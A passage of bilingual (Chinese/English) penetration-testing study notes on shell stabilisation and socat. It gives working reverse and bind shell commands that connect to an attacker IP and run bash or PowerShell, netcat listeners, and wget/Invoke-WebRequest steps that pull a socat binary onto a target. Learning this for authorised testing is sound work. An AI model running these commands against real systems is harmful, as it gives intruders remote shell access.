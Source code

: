 				--> reset :  shell 死機
				
			--> rlwrap :
				--> 在處理 Windows shell 時特別有用
				--> sudo apt install rlwrap
				--> rlwrap nc -lvnp <port>
				--> Ctrl + Z
				--> stty raw -echo; fg :重新進入 shell
				
			-->Socat
				--> 僅限於 Linux 目標
				--> 傳輸到目標機器 : socat 靜態編譯的二進位檔案
				--> https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true
				
				--> sudo python3 -m http.server 80 :  setting up a Python3 webserver on port 80
				--> under shell :  wget <LOCAL-IP>/socat -O /tmp/socat
				
				--> Powershell : Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
					-->  using either Invoke-WebRequest or a webrequest system class
					
				--> stty -a
					--> stty rows <number>
					--> stty cols <number>
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> Socat
			--> 比開箱即用的 netcat shell 更穩定
			--> 將其視為兩點之間的連接器
			
			--> Reverse Shells :
				--> kali : socat TCP-L:<port> -  : 基本反向 shell 偵聽器的語法
					--> socat TCP-L:8080 : 讓 socat 監聽 TCP 連接埠 8080
					
				--> Windows  目標: socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
					--> 「pipes」選項用於強制powershell（或cmd.exe）使用Unix風格的標準輸入和輸出。
				--> Linux    目標 : socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
				 
				--> example : 

			--> Bind Shells :
				--> Linux目標 
					--> socat TCP-L:<PORT> EXEC:"bash -li"
					
				--> Windows 目標
					--> socat TCP-L:<PORT> EXEC:powershell.exe,pipes
					
				--> kali :
					--> socat TCP:<TARGET-IP>:<TARGET-PORT> -

			--> socat TCP-L:<port> FILE:`tty`,raw,echo=0

			--> 上傳預先編譯的 socat 二進位文件 :
				-->  https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true
			
			--> socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
				--> pty，在目標上分配一個偽終端
				--> stderr，確保任何錯誤訊息都顯示在 shell 中（通常是非互動式 shell 的問題）
				--> sigint，將任何 Ctrl + C 指令傳遞到子進程中，允許我們終止 shell 內的指令
				--> setid，在新會話中建立進程
				--> sane，穩定終端，嘗試「正常化」它
				